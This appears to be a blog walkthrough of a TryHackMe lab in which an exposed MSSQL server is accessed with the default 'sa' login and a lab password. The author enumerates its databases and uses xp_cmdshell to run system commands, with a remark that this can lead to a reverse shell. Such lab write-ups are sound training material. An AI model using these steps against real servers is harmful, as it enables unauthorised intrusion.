





## Day 11

What is it with elf parents naming their kids after job titles these days?  

> McDatabaseAdmin came rushing into the room and cried to McSkidy, “We’ve been locked out of the reindeer schedule - how will Santa’s transportation work for Christmas?” The grinch has locked McDatabaseAdmin of his system. You need to probe the external surface of the server to see if you get him his access back.

What if they wanted to be an artist instead?  

We've already covered databases a little bit but let's summarise: a database is a collection of bits of information, labelled and categorised and often related to each other. A common example is a database for a website. It'd include at least two tables: users and posts. The user table would have a column for each user that would look something like:

    ID      USERNAME    PASSWORD        EMAIL
    1       jakec       S3cur3P4ss      borngorgeous@jakec.net

And then if the website needed to, say, populate the info on your profile page, it'd go "Hey, get me all the info in the users table where the username is 'jakec'." That'd usually look something like this:

    SELECT * FROM users WHERE username = "jakec";

There are a few different database software packages. We dealt with MongoDB on Day 7 talking about non-relational databases. Today we're dealing with relational database software developed by Microsoft. We're also dealing with a catastrophic mistake: usually, databases are only accessible from inside the server itself; you have to already have access to the server and ideally, present it with a unique set of credentials. Sometimes though, databases are exposed to the rest of the network (or worse, the public internet) and we can use them to get access to the server instead.  

> There is an open port related to MS SQL Server accessible over the network. What is the port number?

Running a port scan, we can see port 1433 is open.  

Microsoft SQL Server is exposed on the network. Now the task wants us to connect to the database using McDBA's credentials:

    sqsh -S 10.10.154.41 -U sa -P t7uLKzddQzVjVFJp

"sa" is the default MSSQL username. But just look at that password. MMM! Delicious.  

We're told the database we need to check is called "reindeer", but if this was total black box, how would we find out?  

    1> select name from master.sys.databases;
    2> go

This prints out the database names:

    master
    tempdb
    model
    msdb
    reindeer

The first four are default MSSQL databases. "reindeer" is the only new one.  

Now let's see which tables are inside "reindeer":

    1> select table_name from reindeer.information_schema.tables where table_type = 'base table';
    2> go

We get:

    names
    presents
    schedule

If you're following the TryHackMe walkthrough you can skip those steps, but when actually pentesting an MSSQL database, these steps are essential parts of the process. Let's learn 'em whenever we get an opportunity.  

Now let's list out the reindeer names:

    1> select * from reindeer.dbo.names;
    2> go

> We can see four columns in the table displayed above: id, first (name), last (name), and nickname. What is the first name of the reindeer of id 9?

It's our buddy Rudolph.  

> Check the table schedule. What is the destination of the trip scheduled on December 7?

    1> select * from reindeer.dbo.schedule;
    2> go

One of the main settings for Vin Diesel vehicle xXx, it's Prague.  

> Check the table presents. What is the quantity available for the present “Power Bank”?

    1> select * from reindeer.dbo.presents;
    2> go

25000; that's a lot of people worried about their phone dying in the middle of the day. But not as many people looking for a THM subscription, wow.  

So by itself, sure, getting some info out of the database *could* be pretty useful for an attacker. But it's not truly catastrophic, right? What if the database doesn't have anything useful in it?  

Well, MSSQL has a function that allows you to run shell commands on the machine straight out of the MSSQL terminal. So you don't have to log out of MSSQL to move a file or check inside a folder. You can do this like:

    xp_cmdshell '[command]';
    go

If we run:

    1> xp_cmdshell 'whoami';
    2> go

It tells us the Windows account running the MSSQL server:

    nt service\mssqlserver

And if you can run system commands, you can probably upload a reverse shell and attempt to escalate from there, turning a simple database into full system compromise.  